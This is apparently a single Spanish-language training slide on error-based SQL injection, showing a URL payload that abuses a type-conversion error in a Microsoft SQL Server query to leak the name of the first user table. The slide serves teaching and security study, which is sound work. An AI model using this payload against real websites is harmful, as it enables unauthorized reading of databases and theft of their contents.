

# SQL Injection Error Based
Extrayendo la primera tabla de la BD
http://juggyboy.com/page.aspx?id=1 or 1=convert(int, (select top 1 name from sysobjects where xtype=char(85)))--